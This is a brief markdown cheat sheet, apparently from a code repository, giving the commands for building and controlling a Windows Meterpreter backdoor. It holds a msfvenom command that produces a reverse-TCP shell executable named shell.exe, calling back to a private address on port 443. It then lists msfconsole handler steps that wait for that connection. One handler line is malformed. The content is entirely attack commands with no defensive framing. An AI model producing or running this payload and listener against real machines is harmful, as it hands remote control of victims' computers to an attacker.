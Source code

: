 # Msfvenom
Create with:

msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=172.16.14.112 LPORT=443 -b "\x00" -f exe -o shell.exe

msfconsole -q
>>use exploit/multi/handler
>>set payload windows/meterpreter/reverse_tcp
>>windows/meterpreter/reverse_tcp
>>set lhost 192.168.1.123
>>set lport 4444
>>exploit -j
